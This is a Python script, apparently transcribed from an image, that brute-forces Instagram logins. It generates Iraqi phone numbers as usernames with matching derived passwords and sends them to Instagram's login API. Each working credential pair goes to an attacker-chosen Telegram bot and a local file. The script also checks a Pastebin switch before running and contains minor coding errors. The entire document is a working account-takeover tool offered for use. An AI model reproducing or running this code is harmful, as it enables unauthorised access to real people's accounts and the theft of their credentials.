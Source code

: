 import os
try:
    import uuid
except:
    os.system ("pip install uuid")
try:
    from random import *
except:
    os.systeam("pip install random ")
try:
     import string

except:
    os.system("pip install string")
try:
    import requests 

except:
    os.system ("pip install requests ")
try:
    from user_agent import generate_user_agent

except:
    os.system("pip install user_agent ")
try:
    from datetime import datetime
except:
    os.system("pip install datetime ")
try:
    import time
except:
    os.system("pip install time")
os.system("clear")
try:
    import pyfiglet
except:
    os.system("pip install pyfiglet")
os.system("clear")
import pyfiglet
import os
from time import sleep
import webbrowser
import os, sys, requests
webbrowser.open('https://t.me/Art4Q')
Z = '\x1b[1;31m'
P = '\x1b[2;35m'
J = '\x1b[1;31m'
I = '\x1b[2;36m'
G = '\x1b[1;32m'
H = '\x1b[2;35m'
S = '\x1b[2;32m'
A = '\x1b[2;36m'
webbrowser.open('https://youtube.com/channel/UCDe7G2nUUatJS_j-WsGVCOQ')
import user_agent, random, uuid, requests, string
from user_agent import generate_user_agent
from datetime import datetime
from random import *
from time import sleep
import requests, os, random, json, threading, secrets, uuid
from colorama import Fore, Style
from time import sleep
from datetime import datetime
from secrets import token_hex
from uuid import uuid4
import pyfiglet, webbrowser
sleep(1)
P55 = pyfiglet.figlet_format( '☆Eslam☆')
sleep(1)
os.system('clear')
aa = 0
zz = 0
print('\n')
print(J + P55)
print(H + '- - - - - - - - - - - - - - - - - - - - - - - - - - - - - -\n ')
ID = input(G + '  ID telegram  ➪   ')
print('\n')
sleep(1)
tok = input(G + '  TOKEN Telegram ➪     ')
print('\n\n\n')
print(H + '- - - - - - - - - - - - - - - - - - - - - - - - - - - - - -\n ')
w = 'https://pastebin.com/raw/Ts33wEg9'
start_msg = requests.post(f"https://api.telegram.org/bot{tok}/sendMessage?chat_id={ID}&text=مطور إسلام✅➕👌").json()
id_msg = start_msg['result']['message_id']
rss = requests.get(w).text
if 'CJ' in rss:
    sleep(0.1)
    r = requests.Session()
    user = '0987654321'
    while True:
        us = str(''.join((random.choice(user) for i in range(7))))
        username = '+964770' + us
        password = '0770' + us
        url = 'https://i.instagram.com/api/v1/accounts/login/'
        headers = {'User-Agent':'Instagram 113.0.0.39.122 Android (24/5.0; 515dpi; 1440x2416; huawei/google; Nexus 6P; angler; angler; en_US)',  'Accept':'*/*', 
         'Cookie':'missing', 
         'Accept-Encoding':'gzip, deflate', 
         'Accept-Language':'en-US', 
         'X-IG-Capabilities':'3brTvw==', 
         'X-IG-Connection-Type':'WIFI', 
         'Content-Type':'application/x-www-form-urlencoded; charset=UTF-8', 
         'Host':'i.instagram.com'}
        uid = str(uuid4())
        data = {'uuid':uid,  'password':password, 
         'username':username, 
         'device_id':uid, 
         'from_reg':'false', 
         '_csrftoken':'missing', 
         'login_attempt_countn':'0'}
        req_login = r.post(url, headers=headers, data=data, allow_redirects=True)
        if 'logged_in_user' in req_login.text:
            zz += 1
            print(G + 'username ==> : ' + username + ': password ==> : ' + password)
            tlg = f"https://api.telegram.org/bot{tok}/sendMessage?chat_id={ID}&text=- -Hi تم صيد - -\n -  - - - - - - - - - - - - - - - - - - - - - - - - - \n - ✅ emil :  {username} \n-  ✅PASS :     {password}\n- - - - - - - - - - - - - - - - - - - - - -\n by :- @rl_xco - @AAAKK0"
            i = requests.post(tlg)
            with open('insta.txt', 'a') as (HACKED):
                HACKED.write(' [-] UserName : {} \n [-] Passowrd : {} \n\n'.format(username, password))
        elif '"message":"challenge_required","challenge"' in req_login.text:
            print(+'username S ==> : ' + username + ': password ==> : ' + password)
        else:
            requests.post(f"https://api.telegram.org/bot{tok}/editmessagetext?chat_id={ID}&message_id={id_msg}&text= Hi جاري الفحص يا اسد \n - - - - - - - - - - - - - - - - - - - - - -\n- -تم صيد  [{zz}]✅\n\n\n- -جاري فحص [{aa}]❎  ({username})\n\n- - - - - - - - - - - - - - - - - - - - - -\n BY @rl_xco -: @AAAKK0 ")
            print(Z + 'username ==> : ' + username + ': password ==> : ' + password)
            aa += 1

    print('انتهـت الـفـتره المـجانـيه راسـل المـطور لـتفعيل ')
